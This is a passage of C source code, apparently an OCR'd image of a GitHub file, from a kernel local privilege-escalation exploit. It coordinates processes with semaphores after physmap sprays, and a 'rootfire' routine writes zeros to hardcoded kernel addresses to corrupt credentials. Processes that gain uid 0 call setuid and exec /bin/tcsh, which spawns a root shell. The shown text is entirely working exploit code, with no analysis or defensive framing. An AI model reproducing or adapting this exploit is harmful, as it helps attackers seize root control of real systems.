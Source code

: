 ```c
      sem_wait(pwn_ctx->sem);
      pwn_ctx->init++;
      sem_post(pwn_ctx->sem);

      // wait till all physmap sprays are done
      while(!pwn_ctx->spray){sleep(1);}
      malloc_cred();
      sem_wait(pwn_ctx->sem);
      pwn_ctx->init--;
      sem_post(pwn_ctx->sem);

      // wait till we are peforming cred corruption attempts
      while(!pwn_ctx->exploit){sleep(1);}
      while(!pwn_ctx->win){
        if(getuid() == 0){
          pwn_ctx->win = 1;
          setuid(0);
          setgid(0);
          seteuid(0);
          printf("[+] Winnerwinnerchickendinner!\n");
          sleep(1);
          execl("/bin/tcsh", "/bin/tcsh", NULL);
        }
        sleep(1);
      }
      exit(1337);
    }
  }
}

void god_write(unsigned long target)
{
  write_4_zeros(fd, target);
}

void rootfire()
{
  unsigned long vals[256] = { \
  0xfffff80013000108,
  0xfffff80014000108,
  0xfffff800130c0108};
  int size = sizeof(vals) / sizeof(unsigned long);

  printf("[*] Exploiting!\n");
  pwn_ctx->exploit = 1;
  for(int i = 0; i < size; i++)
  {
    if(vals[i] == 0)
      break;
    god_write(vals[i]);
    sleep(1);
    if(pwn_ctx->win)
      break;    
  }

  if(pwn_ctx->win)
    printf("\n[ ]----------------WIN!--------------------[ ]\n");
  else
    printf("\n[ ]----------------FAIL!-------------------[ ]\n");
  cleanup();
}

void spray_blockers(int num)
```